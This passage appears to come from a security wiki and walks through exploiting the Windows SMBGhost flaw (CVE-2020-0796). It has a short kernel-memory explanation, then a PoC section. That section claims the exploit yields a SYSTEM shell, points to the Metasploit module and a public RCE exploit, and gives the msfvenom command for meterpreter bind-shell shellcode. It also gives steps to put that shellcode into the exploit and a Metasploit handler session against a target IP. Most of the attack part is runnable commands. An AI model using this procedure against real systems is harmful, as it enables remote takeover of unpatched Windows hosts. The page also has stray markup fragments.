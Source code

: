 `memmove(*(alloc_buffer+0x18)，SMB_payload，offset)`

At this time, alloc_buffer+0x18 has pointed to the tokenAddr kernel address of the verification program, while SMB_payload points to the permission data in evilData at this time, and offset is 0x10. 

There is another detail to note. When decompressing, the `Srv2DecompressData` function will determine whether the actual decompressed data size `FinalUnCompressedSize` is consistent with the original data size `OriginalCompressedSegmentSize` in the data packet.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627103610261-f1cba6bf-6870-41b7-bb01-c8933df88a43.png)

Logically speaking, the actual decompressed data size is 0x1100, which does not equal the original compressed data size in the data packet 0xffffffff. Here you should enter the subsequent memory release process. 

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627103610298-982f6ead-a91f-46c8-85fa-5f69f436f47f.png)



## Vulnerability POC


</a-alert>
<br/>
Use Qi'anxin's vulnerability scan to detect

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627103611100-9024e27a-d488-4c8c-861e-f791256c65ed.png)
<br/>



</a-alert>
<br/>

After running the application, the cmd window pops up as system permissions

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627103611077-e1fc15be-d3ea-4036-82f2-5cf7a90f7ea9.png)

Or use MSF's built-in EXP windows/local/cve_2020_0796_smbghost to locally increase authority

<a-alert type="success" message="https://github.com/chompie1337/SMBGhost_RCE_PoC" description="" showIcon>
</a-alert>
<br/>

`msfvenom generates reversed shellcode`

`msfvenom -p windows/x64/meterpreter/bind_tcp lport=2333 -f py -o exp.py`

Will generate shellcode in exp.py replace shellcode in exploit.py

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627103611172-2054aa5a-50ed-4b22-b507-2e2708bb277b.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627103611207-6e81b26c-ebc8-4012-a66a-cd4cb919ca53.png)

`buf to be replaced with USER_PAYLOAD`, use MSF, `Note that there is a blue screen probability`

```shell
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set lport 2333
lport => 2333
msf5 exploit(multi/handler) > set rhost 192.168.1.110
rhost => 192.168.1.110
msf5 exploit(multi/handler) > exploit
执行脚本即可
python3 exploit.py  -ip 192.168.1.110
```
